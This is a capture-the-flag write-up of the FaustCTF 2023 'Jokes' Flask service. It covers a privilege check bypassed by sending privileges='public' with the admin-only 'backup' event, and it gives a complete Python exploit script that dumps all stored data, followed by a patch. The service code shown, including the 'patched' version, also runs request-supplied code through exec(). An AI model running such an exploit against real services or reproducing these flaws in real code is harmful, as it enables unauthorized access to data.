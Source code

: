 ![FaustCTF 2023 Logo](https://2023.faustctf.net/img/faustctf.svg)

# FaustCTF 2023: Jokes

---

## Enumeration & Manual Exploitation
Jokes is a Webservice written in Python (Flask). It also uses an sqlite database to store both users and jokes. Jokes will be added by the flag bot later on and will contain flags. The problem is that they require higher privileges to view.

### Routes

The service consists of several different routes. The routes `/login`, `/register` and `/logout` are handling everything related to authentication. In this specific case, these routes are not very interesting for the further exploitation.

To create and alter the content of jokes, the services also consists of the routes `/review`, `/like-joke` and `/profile`. The first two are also not interesting. The code of `/profile` contains the following function:
```py
@app.route('/profile', methods=["POST"])
@login_required
def profile_post():
    if "message" in request.form:
        if not verify(request.form.get("message"), bytes.fromhex(request.form.get("hash"))):
            return Response("Not cool", 401)
        message = json.loads(request.form["message"])
        loc = {}
        exec(message["action"], None, loc)
        return loc["rv"]
    if event := request.form.get("event"): # Checks the post parameter 'event'. Depending on this parameter, different code gets executed 
        if request.form.get("privileges") == "admin": # Checks if User has admin priviliges
            if flask_login.current_user != "admin":
                return render_template("unauthorized.html", joke=Joke.query.filter_by(draft=False, under_review=False).order_by(func.random()).first()), 401
            else:
                return eventhandler[AdminEvent(event)]()
        elif request.form.get("privileges") == "public": # Public view. 
            return eventhandler[PublicEvent(event)]() # Note that there is no valid check whether or not we have the proper permissions to execute the service. Just doing PublicEvent() is in this case not enough!
    return profile()
```

#### Why is that check not enough?
The code for handling events looks like the following:
```py
# events.py
class AbstractEvent(ABC, str):
    @abstractmethod
    def hidden(self):
        pass


class PublicEvent(AbstractEvent):
    hidden = False

    def __init__(self, category):
        pass # removed for simplicity


class AdminEvent(AbstractEvent):
    hidden = True

    def __init__(self, category):
        self.category = category


eventhandler = dict()


def register_event(event, handler, admin=True):
    if admin:
        eventhandler[AdminEvent(event)] = handler
    else:
        eventhandler[PublicEvent(event)] = handler

# main.py
def init_eventhandler():
    register_event("submit", app.submit_joke, False)
    register_event("review", app.review, False),
    register_event("export", app.export, False)
    register_event("backup", app.backup)

```

To show that the check that is currently implemented is not enough, we can try the following:
```py
print(f"Eventhandler: {eventhandler}")
print(f"""AdminEvent: {eventhandler[AdminEvent("backup")]}""")
print(f"""PublicEvent: {eventhandler[PublicEvent("backup")]}""")
print(f"""String: {eventhandler["backup"]}""")
```
Output:
```py
Eventhandler: {'submit': <function submit at 0x00020179C6FEA020>, 'review': <function review at 0x00000179C6FEA120>, 'export': <function export at 0x00000179C6FEA220>, 'backup': <function backup at 0x00000179C6FEA020>}
AdminEvent: <function backup at 0x00000179C6FEA020>
PublicEvent: <function backup at 0x00000179C6FEA020>
String: <function backup at 0x00000179C6FEA020>
```
As you can see, we always get the pointer to the same function. It does not matter if we create an AdminEvent, PublicEvent or even string. Because of that, the check that was mentioned above is not enough to check for permissions!

## Exploitation
Using our new intel about the service, the following exploit can be created:

```py
#!/usr/bin/env python3

import os
import json
import time
import random
import string
import requests


### HELPERS ###
def gen_random(n):
    return ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase) for i in range(n))

headers = {'User-Agent': 'python-requests/2.29.0',
           'Accept-Language': 'en-US,en;q=0.5',
           'Content-Type': 'application/x-www-form-urlencoded',
           'Upgrade-Insecure-Requests': '1'}

### END HELPERS ###

HOST = os.getenv('TARGET_IP') # Will automatically be set by our attack platform!
#HOST = "fd66:666:1::2"

session = requests.session()
username = gen_random(5)
password = gen_random(5)

data = {
    "name": username,
    "password": password
}

session.post(f"http://[{HOST}]:5000/register", headers=headers, data=data) # Create a new user

session.post(f"http://[{HOST}]:5000/login", headers=headers, data=data) # Login as the new user


backup_body = {
    "privileges": "public",
    "event": "backup"
} # This is the main part of the exploit. The service never enforces the privilege policy. Because of that, we can set the priviliges to public and circumvent any restriction measurements. By default the privileges of this request are set do "admin"

req = session.post(f"http://[{HOST}]:5000/profile", headers=headers, data=backup_body) # Get backup using the "backup" event to dump all existing jokes

print(req.text)
```

Example output:
```py
{"Animal":["Q: Can a kangaroo jump higher than the Empire State Building? A: Of course. The Empire State Building can't jump.","Q: Why couldn't the leopard play hide and seek? A: Because he was always spotted."],"Blonde":["A blonde, a redhead, and a brunette were all lost in the desert. They found a lamp and rubbed it. A genie popped out and granted them each one wish. The redhead wished to be back home. Poof! She was back home. The brunette wished to be at home with her family. Poof! She was back home with her family. The blonde said"],"Dad":["FAUST_tpYmKVpLTCWDsOIZXa2APD6awRFBhfxi", "FAUST_6SgoNljU4hikeipPGRNA0VkYZdI4UqDI", "FAUST_bcjJuN9LKGDir5gzIHPkbEA9XfvpHwKv"]}
```
By altering the value of the privileges key from `admin` to `public` in the last request to `/profile`, we can export every joke that has been created even though we are not administrator.

## Patching
To patch the exploit, the only thing we have to do is to block access to the backup function if we are not an administrator. The following code shows a patched version of the service:
```py
@app.route('/profile', methods=["POST"])
@login_required
def profile_post():
    if "message" in request.form:
        if not verify(request.form.get("message"), bytes.fromhex(request.form.get("hash"))):
            return Response("Not cool", 401)
        message = json.loads(request.form["message"])
        loc = {}
        exec(message["action"], None, loc)
        return loc["rv"]
    if event := request.form.get("event"):
        if request.form.get("privileges") == "admin":
            if flask_login.current_user != "admin":
                return render_template("unauthorized.html", joke=Joke.query.filter_by(draft=False, under_review=False).order_by(func.random()).first()), 401
            else:
                return eventhandler[AdminEvent(event)]()
        elif request.form.get("privileges") == "public":
            if request.form.get("event") == "backup" and flask_login.current_user != "admin": # Check for admin privileges
              return render_template("unauthorized.html", joke=Joke.query.filter_by(draft=False, under_review=False).order_by(func.random()).first()), 401  # Throw error if not permitted

            return eventhandler[PublicEvent(event)]()
    return profile()
```

If we now try the exploit from before, we get the following error message:
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Jokes</title>
    <link rel="stylesheet" href="../static/stylesheet/bulma.min.css">
</head>
<style>p {
    word-break: break-all;
    white-space: break-spaces;
}
.column{
    margin: 5px
}
.buttons{
    display: flex;
  justify-content: space-around;
}
.like-button-container {
    display: flex;
    flex-direction: row;
    align-items: center;
    justify-content: flex-end;
    margin-top: 10px; /* Adjust the margin as needed */
}
.like-button{
    background: #ffffff;
      border: 1px solid #000000; /* Green */
}

</style>
<body>
<div class="container has-text-centered"
     style="width: 100%; position: fixed; left: 50%; top: 50%; transform: translate(-50%, -50%);">

<h1>Your privileges are not sufficient.. but here's a joke: </h1>
    Q: Why did the witches&#39; team lose the baseball game? A: Their bats flew away.

</div>
</body>

</html>
```
